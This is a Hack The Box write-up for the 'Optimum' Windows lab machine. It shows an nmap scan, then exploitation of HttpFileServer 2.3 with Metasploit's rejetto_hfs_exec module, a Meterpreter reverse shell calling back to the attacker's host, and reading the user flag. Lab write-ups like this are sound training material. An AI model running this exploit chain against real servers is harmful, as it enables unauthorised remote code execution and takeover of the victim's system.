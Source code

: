 
# HTB - Optimum
## OS - Windows

I started with an nmap scan of Optimum (IP address: 10.10.10.8)

```
└──╼ $sudo nmap -sC -sV 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 15:22 PDT
Nmap scan report for 10.10.10.8
Host is up (0.094s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.28 seconds

```

So only port 80 is up and running.

We see that the software used is "HttpFileServer" httpd 2.3. I fire up metasploit and search for HttpFileServer. Sure enough, there is an exploit module for this.

```
msf5 > search HttpFileServer

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution



```


I use that exploit

```
msf5 > use exploit/windows/http/rejetto_hfs_exec 

```

I set the options/. Only the RHOST was required. And then ran the module.

```
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Using URL: http://0.0.0.0:8080/N224sid5itdo
[*] Local IP: http://172.25.252.98:8080/N224sid5itdo
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /N224sid5itdo
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.10:4444 -> 10.10.10.8:49167) at 2020-09-19 15:33:34 -0700

[!] Tried to delete %TEMP%\sfeWKJqCPBq.vbs, unknown result
[*] Server stopped.

meterpreter > 


```

Wasn't sure why the server stopped, but ls command showed the remote user directory.

```
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-09-26 00:31:46 -0700  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 04:57:16 -0700  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 03:58:52 -0800  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 05:13:18 -0700  user.txt.txt

meterpreter > cat user.txt.txt

```


I got the user flag. 



